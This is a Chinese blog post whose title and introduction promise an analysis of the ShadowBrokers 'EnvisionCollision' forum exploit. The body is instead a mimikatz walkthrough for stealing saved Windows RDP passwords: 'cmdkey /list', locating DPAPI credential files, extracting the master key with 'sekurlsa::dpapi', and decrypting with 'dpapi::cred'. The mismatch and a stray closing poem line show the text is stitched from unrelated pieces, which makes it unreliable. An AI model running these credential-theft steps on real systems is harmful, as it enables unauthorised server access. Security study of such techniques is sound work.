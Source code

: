 ```yaml
---
layout: post
title: 对ShadowBrokers Envison Collision漏洞的利用分析
subtitle: 2017/11/08
date: 2017-11-08
author: FR
header-img:
catalog: true
tags:
    - ShadowBrokers
    - 漏洞
---
```

- **转自FreeBuf [【FreeBuf链接】](http://www.freebuf.com/vuls/152427.html)**  
- **原文来自steemit[【原文链接】](https://steemit.com/security/@shadoweye/analysis-of-the-shadowbrokers-envisoncollision-exploit)**

目前我们正在对ShadowBrokers公开的利用工具以及脚本等进行了全方位的分析和分类工作，所以写一篇关于Linux下“envisioncollision”漏洞利用的简单介绍是非常值得的。我们之前已经对所公开文件中的[PHPBB](https://steemit.com/security/@shadoweye/analysis-of-the-shadowbrokers-xpphpbb-pl-exploit)漏洞进行披露，当时的文章中提到这个漏洞非常受网络犯罪组织的欢迎，因为很多web论坛都存在“有效”的SIGINT目标，所以接下来披露另一个web论坛漏洞合情合理。

## 基本介绍

## 0x01 凭据管理器中查看Windows凭据：TERMSRV/1xx.xxx.xxx.xx2

![img/2017-10-20/pjyczdpjhqfwqmm_02.png](https://www.t00ls.net/attachments/month_1710/1710010133cc76caaa81644803.png)

可通过命令行获取，执行: cmdkey /list
>注意:该命令务必在Session会话下执行，system下执行无结果。

## 0x02 凭据存储在用户目录下

C:\Users\<username>\AppData\Local\Microsoft\Credentials\*，图中名为"FF359429D6F19C64BA7D3E282558EEB5"的文件即为目标凭据:TERMSRV/1xx.xxx.xxx.xx2的存储文件

![img/2017-10-20/pjyczdpjhqfwqmm_03.png](https://www.t00ls.net/attachments/month_1710/1710010133de85b4d2e02de9b4.png)

## 0x03 执行

`mimikatz "dpapi::cred /in:C:\Users\xx\AppData\Local\Microsoft\Credentials\FF359429D6F19C64BA7D3E282558EEB5"`

![img/2017-10-20/pjyczdpjhqfwqmm_04.png](https://www.t00ls.net/attachments/month_1710/1710010133f73326447a780849.png)

pbData是凭据的加密数据，guidMasterKey是凭据的GUID: {d91b091a-ef25-4424-aa45-a2a56b47a699}。

## 0x04 执行

`mimikatz privilege::debug sekurlsa::dpapi`

![img/2017-10-20/pjyczdpjhqfwqmm_05.png](https://www.t00ls.net/attachments/month_1710/17100101335e46e0e11d5639b9.png)

根据目标凭据GUID: {d91b091a-ef25-4424-aa45-a2a56b47a699}找到其关联的MasterKey，这个MasterKey就是加密凭据的密钥，即解密pbData所必须的东西。

## 0x05 拿到了MasterKey,服务器密码便唾手可得。执行解密命令

`mimikatz "dpapi::cred /in:C:\Users\xx\AppData\Local\Microsoft\Credentials\FF359429D6F19C64BA7D3E282558EEB5 /masterkey:28d1f3252c019f9cxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx16dcec8e5dbf5cd0"`

![img/2017-10-20/pjyczdpjhqfwqmm_06.png](https://www.t00ls.net/attachments/month_1710/1710010133a0bde34b6ad38f6f.png)

解密出来的CredentialBlob即为凭据TERMSRV/1xx.xxx.xxx.xx2的服务器密码。

衣带渐宽终不悔，为伊消得人憔悴。阿弥陀佛。

## 参考:
http://www.freebuf.com/articles/network/146460.html
